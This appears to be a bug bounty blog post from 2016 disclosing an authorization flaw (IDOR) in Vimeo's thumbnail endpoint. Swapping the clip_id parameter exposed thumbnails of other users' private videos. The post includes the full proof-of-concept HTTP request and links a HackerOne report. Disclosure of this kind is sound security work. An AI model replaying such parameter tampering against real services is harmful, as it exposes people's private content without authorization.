```yaml
---
title: Abusing Thumbnails to see Vimeo private video
date: 2016-05-11 00:00:00 +02:00
categories:
- IDOR
- Privacy
layout: post
excerpt: https://vimeo.com/upload/select_thumb uri is used set a thumbnails on your
  vimeo video. https://vimeo.com/upload/.............
comments: true
---
```


https://vimeo.com/upload/select_thumb URL is used to set thumbnails to your Vimeo video. https://vimeo.com/upload/select_thumb URL request is composed of 3 parameter clip_id, token, and time. clip_id parameter is used to select a video you want to get a thumbnail, the token is an anti-CSRF token and time parameter is the time frame of the video you selected.

I changed the value of clip_id parameter to another video id to test some authorization flaw, it seems, it works because I got HTTP/1.1 200 OK and I short JSON response that contains a URL, like this one

```
{"success":true,"id":503302458,"url":"https:\/\/i.vimeocdn.com\/video\/503302458_100x75.jpg"}
```


To confirm this is an authorization flaw, I make an another account and upload a private video on that account and get the clip_id then make an HTTP request (https://vimeo.com/upload/select_thumb) to my attacker account using that clip_id. as a result, I got some thumbnails on a private video.

To get the whole video just iterate the time parameter!


## HTTP Request of vulnerable endpoint
{% highlight text %}
POST /upload/select_thumb HTTP/1.1
Host: vimeo.com
Connection: keep-alive
Content-Length: 101
Accept: application/json
Origin: https://vimeo.com
X-Requested-With: XMLHttpRequest
X-Request: JSON
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: https://vimeo.com/116730756/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8,et;q=0.6,fil;q=0.4
Cookie: optimizelyEndUserId=oeu1421174571879r0.30598339810967445; vimeo_cart=%7B%22pro%22%3A%7B%22store%22%3A%22pro%22%2C%22version%22%3A1%2C%22quantities%22%3A%7B%22433857%22%3A1%7D%2C%22items%22%3A%5B%7B%22id%22%3A433857%7D%5D%2C%22currency%22%3A%22USD%22%2C%22attributes%22%3A%5B%5D%7D%7D; ki_t=1421174596820%3B1421174596820%3B1421174632154%3B1%3B2; ki_r=; optimizelySegments=%7B%22198520930%22%3A%22direct%22%2C%22199004622%22%3A%22gc%22%2C%22199138489%22%3A%22false%22%2C%22213082152%22%3A%22none%22%2C%22222271074%22%3A%22true%22%7D; optimizelyBuckets=%7B%7D; language=en; clips=116730756%2C116213689; auto_load_stats=1; has_logged_in=1; stats_start_date=2015%2F01%2F11; stats_end_date=2015%2F01%2F15; site_settings=%7B%22sticky_page%22%3A%22%5C%2Fmyvideos%22%2C%22browse_format_vid%22%3A%22video%22%7D; stream_id=Y2xpcHM6MzYzNzIzODc6aWQ6ZGVzYzpbXQ%3D%3D; stream_pos=1; orphaned_upload_clip_ids_v2=%5B116730663%2C116730664%5D; vuid=971609171.1881657208; _utma=18302654.1379178336.1421173781.1421184208.1421253399.5; _utmb=18302654.28.9.1421253997197; __utmc=18302654; __utmz=18302654.1421174705.2.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); _utmv=18302654.|2=usertype=basic=1^3=ms=0=1^7=video_count=0=1; vimeo=epk9krxkmr70pcdxcxxsctd7jpcdxcxmkxrx7%2Cpfftk0tftdd0fdcmvx9x92rmksckx5rrfww5dwrvv; player=""; xsrft=d816974227fe3684c41a8501f333679f.61b1f2e5e1df9aeb29e02acf641d99a9

clip_id=9digitid&token=TOKEN_HERE&time=51.283

{% endhighlight %}

**Original Report:** [Hackerone](https://hackerone.com/reports/43850)
